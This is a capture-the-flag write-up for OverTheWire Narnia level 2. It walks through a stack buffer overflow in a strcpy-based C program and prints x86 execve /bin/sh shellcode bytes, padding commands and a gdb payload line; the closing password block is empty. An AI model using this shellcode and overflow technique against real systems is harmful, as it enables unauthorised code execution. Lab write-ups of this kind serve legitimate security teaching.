 # Level 2 → Level 3

## Solution
```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 128+4 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    echo "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
    ```

2. padding is: 
    ```
    perl -e 'print "A"x(128-33+4)'
    ```

3. what is the address of the top of the stack?

```
SHELLCODE=$'\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80'

SHELLCODE_ADDR=$'\xf8\xd3\xff\xff'

PADDING=$(perl -e 'print "A"x(128-25+4)')

gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))

https://packetstormsecurity.com/files/154870/Linux-x86-execve-bin-sh-Shellcode.html
```

## Password for the next level:
```

```
